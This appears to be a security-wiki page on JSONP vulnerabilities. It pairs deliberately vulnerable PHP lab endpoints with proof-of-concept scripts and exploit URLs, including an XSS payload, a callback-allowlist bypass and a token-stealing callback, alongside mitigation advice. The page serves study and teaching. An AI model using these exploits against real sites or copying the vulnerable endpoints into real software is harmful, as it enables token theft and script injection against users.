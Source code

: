 # JSONP

Code Vulnerable

```html
<?php
session_start();

if($_SESSION['islogin'] != 1){
    header("Location: login.php");
    die();
}

?>
<html>
  <head>
    <title>Books Library</title>
    <link rel="stylesheet" type="text/css" href="../style/css.css">
  </head>
  <body id="bodyId">
    <div class="header">
      <a href="index.php" class="logo">Books Library</a>
      <div class="header-right">
        <a href="index.php">Home</a>
        <a class="active" href="profile.php">Profile</a>
        <a href="login.php">Login</a>
      </div>
    </div>
    <div id=output>
    	
    </div>
    <div class="container">
    	**<script type="text/javascript">
    		function userInfo(data){
    			var name = '<center><span>User Name: '+data["username"]+'</span><br>',
    				email = '<span>Email: '+data['email']+'</span><br>',
    				fname = '<span>Full Name: '+data['Full Name']+'</span></center>';
    			document.getElementById('output').innerHTML = name+email+fname;
    		}
    	</script>**
    	<script src="<http://vuln.labs/labs/jsonp/info.php?callback=userInfo>"></script>
    </div>
  </body>
</html>
```

POC

```jsx
**<script>
	function userInfo(data){
		document.write(JSON.stringify(data))
	}
</script>
<script src='<http://localhost/labs/jsonp/info.php?callback=userInfo>'></script>**
```

Mitigation

Use CORS Instead of JSONP

Strict Callback Validation

```php
<?php
header('Content-Type: application/javascript');

**$allowed_callbacks = ['safeFunction'];**
$callback = $_GET['callback'];

if (in_array($callback, $allowed_callbacks)) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}

```

JSONP Content-Type Validation

More Complex

#### Scenario 1: Exploiting with Malicious Parameters

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$name = isset($_GET['name']) ? $_GET['name'] : 'John Doe';
$email = isset($_GET['email']) ? $_GET['email'] : 'john@example.com';

$data = [
    "name" => $name,
    "email" => $email
];

// Vulnerable JSONP response with user input
echo $callback . '(' . json_encode($data) . ');';

```

exploit

```jsx
<http://localhost/vulnerable_server.php?callback=stealData&name=><script>alert('XSS')</script>&email=attacker@example.com

```

get XSS and JSONP data

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Scenario 2: Bypassing Weak Validation

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$allowed_callbacks = ['safeFunction'];

if (strpos($callback, 'safe') === 0) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}
```

#### Exploit

```jsx
<http://vulnerable.com/vulnerable_server.php?callback=safeStealData>
```

#### Scenario 4: JSONP Hijacking via CORS Misconfiguration

#### CORS-Enabled

```php
<?php
header('Access-Control-Allow-Origin: *'); // Wide open CORS policy
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$data = [
    "token" => "58rec269qs4a9w8ewd2a6ghy6", // Sensitive data
];

echo $callback . '(' . json_encode($data) . ');';

```

Exploit

```javascript
<script>
function safeStealData(data) {
    console.log("Stolen token:", data.token);
    // Further actions like sending the token to the attacker's server
}
</script>
<script src="<http://localhost/labs/jsonp/plus/vuln_server3.php?callback=safeStealData>"></script>
```

Scenario 5: Advanced URL Manipulation

```php
<?php
header('Content-Type: application/javascript');

$callback = **urldecode**($_GET['callback']);
$data = [
    "name" => "John Doe",
    "email" => "john@example.com"
];

echo $callback . '(' . json_encode($data) . ');';
```
